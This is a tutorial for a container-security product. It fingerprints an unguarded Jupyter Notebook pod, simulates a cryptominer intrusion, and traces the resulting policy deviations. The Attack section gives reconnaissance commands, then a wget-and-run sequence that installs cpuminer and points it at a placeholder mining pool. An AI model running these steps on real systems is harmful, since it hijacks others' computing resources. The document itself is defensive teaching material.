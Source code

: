 # Introduction to Policies — Cryptominer Attack

> This Scenario is loosely based on the [Silent Bob container attack](https://www.spyderbat.com/blog/silent-bob-container-attack-exposed).

## Setup

For this scenario, we have set up an unguarded Jupyter Notebook pod within the cluster. To start, let's see it in use, and create some "normal" activity that we will use later to generate a baseline fingerprint. After running the access script (`./scripts/access.sh`), you can reach the notebook from <a href="http://localhost:1234" target="_blank">localhost:1234</a>.

This is a standard Jupyter notebook, running the `jupyter/minimal-notebook` docker image. Select the Python 3 notebook, and run some commands in it.

> <i class="fa fa-fire"></i> **Tip:**
> 
> Use the play button or the keyboard shortcut Ctrl-Enter to run code within a code block in the Jupyter Notebook.

```py
print("Hello world!")
```

```sh
!pip install --upgrade pip setuptools wheel
```

Spyderbat is using the activity we just created to define a "fingerprint" for this container. A container fingerprint tracks all of the processes and connections created in a container during normal operation and can be used to define [Guardian Policies](https://docs.spyderbat.com/concepts/guardian). These policies are used by Spyderbat to detect when anomalous activity occurs, either alerting you or even killing the pod in response, depending on the configuration.

Let's take a look at these fingerprints in the Spyderbat UI. Navigate to the Fingerprints page (listed under Guardian in the navigation sidebar). This page lists all of the fingerprints created by Spyderbat for your account, one for each image you have deployed. Using the search bar in the top right, search for "Jupyter" to narrow down the list. To narrow the scope further, we can select the "cryptominer" namespace and "active" status. From there, select the fingerprints that we want (the `minimal-notebook` image), and click "Create Policy" on the bottom bar.

This will open the Policy creation window, allowing you to preview the policy created from the selected fingerprints. If necessary, you could edit the processes and connections that were autogenerated here. For our purposes, the autogenerated data should be good enough, so select "Next". Give the policy a name, but leave it in audit mode for now. Audit mode means the policy will be tracked, but will not actually create any responses, allowing for testing.

![The policy creation screen](./policy_creation.png)

Let's test out the policy by running a new command that is not present in the policy. Navigate back to the Jupyter Notebook interface and open a new "terminal" tab instead of Python. This alone should be enough to be detected, but let's run `ls` just to make sure we have something to look for. It will take a minute or two for the data to appear in the console, but we can navigate to the Guardian Policies page while we are waiting.

This page shows all of the existing (container) policies in your account. Select "View" on the new policy to open the Policy management window. Here, you can see the existing policy as well as all of the detected deviations. It also allows for editing the policy, such as setting it to enforce mode or adding new processes and connections to the policy.

Navigate to the "Deviations" tab. If you do not already see a list of deviations, refresh the page to ensure you have the latest data. After selecting all of the deviations, your policy graph should look similar to the one below.

![The created policy, and our new deviations](./policy_graph.png)

Now that we know the policy works, let's put it in enforce mode. De-select the deviant processes, switch to the "Policy Info" tab, select "Enforcing", and click Save. Since we left the default actions enabled, this policy will not kill deviant pods, only create red flags for deviant processes and connections.

## Attack

Next, let's simulate a malicious use of the Jupyter Notebook. Switch back to the Jupyter Notebook terminal, and run some exploration commands:

```
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ id
uid=1000(jovyan) gid=100(users) groups=100(users)
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ sudo -l
[sudo] password for jovyan: 
Sorry, try again.
[sudo] password for jovyan:^C 
sudo: 1 incorrect password attempt
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ ping -n 3 sourceforge.net
bash: ping: command not found
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ curl sourceforge.net > /dev/null
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ 
```

Looks like we don't have sudo access, there aren't many tools (like ping), but we can connect to SourceForge. Luckily, that is all we need to install a crypto miner. First, we can check that there aren't already any crypto miners installed on this system (given how poor the security would be if this were truly deployed):

```sh
ps -aux
```

Looks like we are alone. So, we can now install the miner:

```sh
wget https://sourceforge.net/projects/cpuminer/files/pooler-cpuminer-2.5.1-linux-x86_64.tar.gz/download
tar -xzf download
./minerd --url fakeminingpool.example.com -u ME -p passwd
```

> <i class="fa-solid fa-circle-info"></i> **Note:**
> 
> This is a real cryptominer, but is not configured to connect to a real service.

## Investigation

Now that we have executed the attack, let's go back to the policy deviations page. Select "View" on the policy, and add all of the deviations to the graph. Here, we can see all of the different commands and connections that did not fit into the existing fingerprint. 

![The new policy deviations](./attack_deviations.png)

Select "Start Process Investigation" on the bottom to see a more detailed view of the tracked deviations. Here, we can see a causal view of all of our attack actions within the container.

![A trace showing the executed attack](./attack_trace.png)

## Cleanup

To ensure that the flags generated by this policy don't interfere with the other demos, let's disable the Guardian policy. Navigate back to the Policies page, and view the policy. Turn off the "Enabled" switch in the Policy Info tab, and save the policy.

## Further Reading

- [Guardian and Interceptor Policies - Spyderbat Documentation](https://docs.spyderbat.com/concepts/guardian)
- [How to Lock Down Your Workloads With Guardian Policies Using Spyctl - Spyderbat Documentation](https://docs.spyderbat.com/tutorials/guardian/how-to-lock-down-your-critical-workloads-with-policies-spyctl)
- ['Silent Bob' Container Attack Exposed - Spyderbat Blog](https://www.spyderbat.com/blog/silent-bob-container-attack-exposed)
